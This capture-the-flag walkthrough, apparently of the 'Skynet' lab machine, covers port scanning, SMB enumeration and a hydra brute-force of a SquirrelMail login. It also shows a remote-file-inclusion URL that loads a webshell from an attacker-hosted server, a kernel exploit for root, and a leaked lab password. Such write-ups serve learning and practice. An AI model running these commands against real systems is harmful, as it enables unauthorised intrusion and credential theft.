# Skynet

The first thing that we should do is network scanning through nmap:

```bash
nmap -sV 10.10.99.10
```



Now we can see that there are samba shares. Then I ran enumeration tool for linux target machine:

```bash
enum4linux -a <target_ip>
```

Moreover there is a listed user shown in the following image named `milesdyson`:


It gave me following share


Simaltaneously, I started directory enumeration and found the following results:


And there is an interesting directory seems `squirrelmail`. I visited it and found:



We can get some useful information through shares so I tried to get into them using the command:

```bash
smbclient //<target_ip>/anonymous -N
```

Now go into logs directory where you will find 3 log files:

```bash
get log1.txt
```
Using above command you can transfer there log files into your attacking machine on the path from where you ran the above smbClient command. Inside `log1.txt` there are many passwords. Useranme we already know, now we should try to crack the password:
```bash
hydra -l milesdyson -P log1.txt <target_ip> http-post-form \
"/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password" \
-V -t 16
```
We found the password:


Now we have username and password, so let's try it on `squirrelmail` directory. Yes!! we logged in successfully as you can see:



Now click on the first mail having subject **Samba password reset** and you will find the password:



Subject shows that this is the password of samba shares. So let's try this password:

```bash
smbclient //<target_ip>/milesdyson -U 'WORKGROUP\\milesdyson%)s{A&2Z=F^n_E.B`'
```

Now go to `notes` directory and there you will find `important.txt` file. Download it using `get` command. Now read this file and you will find something like that:



I suspected that this can be a hidden directory written in the 1st line. I tried and was right, but found nothing interested there. But then I again did the directory enumeration:



Interesting directory found named `administrator`. I went to it and found there is cuppa cms is running.

Now the next question was helpful which is asking about remote file inclusion. I google about remote file inclusion in cuppa cms and found an exploit in [exploit-db](https://www.exploit-db.com/exploits/25971).


By reading the exploit I understood if I host a webshell in my attacker machine, host it via python server then i can exploit the remote file inclusion vulnerability in the target system using the following link:

```
http://<target_ip>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<attacker_ip>:<attacker_port>/shell.txt&cmd=ls
```

It showed me the result of ls command: Now I ran some commands to find the directories and all that stuff. Then I set cmd in url as `cat /home/milesdyson/user.txt` and it gave me the flag:



Now we need to escalate our privileges. First thing I done is I ran the linpeas on the target machine and found come known cve's. The first I tried was:



I Downloaded it's exploit from exploit-db, transferred it to the target machine. Compiled it and ran it, Boom! we go the root shell:



Now, you can read the root flag from `/root/root.txt`.